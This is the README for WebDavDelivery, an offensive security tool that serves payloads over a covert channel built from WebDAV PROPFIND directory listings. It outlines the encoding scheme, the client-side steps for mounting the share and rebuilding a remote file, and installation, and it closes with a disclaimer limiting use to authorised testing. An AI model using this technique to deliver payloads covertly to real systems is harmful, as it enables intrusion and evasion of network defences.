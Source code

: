 WebDavDelivery
============
Author: Arno0x0x - [@Arno0x0x](https://twitter.com/Arno0x0x)


This tool is the server side of the WebDAV *PROPFIND only* requests **covert channel** used to deliver arbitrary files (*payloads, etc.*).

The tool is distributed under the terms of the [GPLv3 licence](http://www.gnu.org/copyleft/gpl.html).

Background information
----------------

Check this blog post on how and **why** I came up with the idea of using WebDAV PROPFIND only requests as a covert channel:

[Wordpress:Using WebDAV features as a covert channel](https://arno0x0x.wordpress.com/2017/09/07/using-webdav-features-as-a-covert-channel/)


Features
------------

WebDavDelivery features a pseudo WebDAV server, serving files from the `servedFiles`folder, by base64 encoding the file, then slicing it into 250 chars long chunks and deliver those chunks as a list of fake file names made of those chunks when listing a virtual directory composed of the real file name.

From the client side, the only thing you can do is browse directories and list their content. Say the WebDAV client wants to download a file named "binary_file.bin", all it has to do is
  1. Mount the share `\\webdavserver_ip_or_fqdn\binary_file.bin` (*eg on Windows:* `pushd \\webdavserver_ip_or_fqdn\binary_file.bin`)
  2. List the files in this directory (*eg on Windows:* `dir /b /a-d`)
  3. Concatenate all file names listed and perform some character sanitization (*essentially, replace '_' by '/' since this character is not suitable for a Windows file name*)
  4. Decode the base64 result --> you get the original file back


 Check the `stagers` directory as it contains some client side **examples** (*in VBA, PowerShell and JScript*) of how to use `webDavDelivery.py` to deliver various payloads. Just let your imagination tell you other fancy use cases of this tool :-).

How to use it
------------

Installation is pretty straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/WebDavDelivery WebDavDelivery`
* cd into the WebDAVDelivery folder: `cd WebDavDelivery`
* Give the execution rights to the main script: `chmod +x webDavDelivery.py`

Then put all the files you want to serve in the `servedFiles` directory.

Eventually, start the pseudo-server: `./webDavDelivery.py`.

**Options**:

You can tell webDavDelivery to server only one single file, no matter what the directory requested by the client is:
	`./webDavDelivery.py -f some_file_path`

The `-v` flag makes webDavDelivery more verbose about the WebDAV traffic. This can help debugging.

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*
